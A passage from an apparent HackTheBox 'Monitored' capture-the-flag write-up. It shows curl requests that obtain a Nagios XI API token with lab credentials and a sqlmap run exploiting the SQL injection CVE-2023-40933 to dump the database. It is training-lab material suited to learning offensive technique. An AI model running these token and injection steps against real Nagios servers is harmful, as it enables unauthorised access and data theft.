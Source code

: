 /license just says Unknown API endpoint, which is interesting:

```
$ curl https://nagios.monitored.htb/nagiosxi/api/v1/license -k
{"error":"Unknown API endpoint."}
```

/authenticate is interesting though:

```
$ curl https://nagios.monitored.htb/nagiosxi/api/v1/authenticate -k
{"error":"You can only use POST with authenticate."}
```

Let's send a POST request:

```
$ curl https://nagios.monitored.htb/nagiosxi/api/v1/authenticate -k -X POST
{"error":"Must be valid username and password."}
```

Pass username and password as POST parameters, with the creds we found earlier:

```
$ curl https://nagios.monitored.htb/nagiosxi/api/v1/authenticate -k -X POST -d 'username=svc&password=XjH7VCehowpR1xZB' | jq
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   189  100   151  100    38    379     95 --:--:-- --:--:-- --:--:--   494
{
  "username": "svc",
  "user_id": "2",
  "auth_token": "66678ccabe4e7191c6f8b2e30fd2b5603b324cd0",
  "valid_min": 5,
  "valid_until": "Mon, 15 Jan 2024 04:50:27 -0500"
}
```

## Foothold

We got an auth token! Now, we need to work out how to use it. After a lot of research, I found [this article](https://support.nagios.com/forum/viewtopic.php?f=16&t=58783). It was mentioned in the article that the auth_token can be used by passing the "token" GET parameter. Let's try it:

![home_svc](home_svc.png)

We logged in as svc! Now, we can actually use the CVE we found earlier, CVE-2023-40933. There is an SQL injection in some kind of banner. We can use this CVE using sqlmap:

```
sqlmap --url 'https://nagios.monitored.htb/nagiosxi/admin/banner_message-ajaxhelper.php?action=acknowledge_banner_message&id=3&token=ca28fca7695b6ee837fcd9e70afdb58039b7d0fa' -p id --batch --dump
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.8#stable}
|_ -| . [(]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 17:53:26 /2024-01-15/

[17:53:27] [INFO] resuming back-end DBMS 'mysql'
[17:53:27] [INFO] testing connection to the target URL
you have not declared cookie(s), while server wants to set its own ('nagiosxi=r456cue6in5...otcftucppc'). Do you want to use those [Y/n] Y
```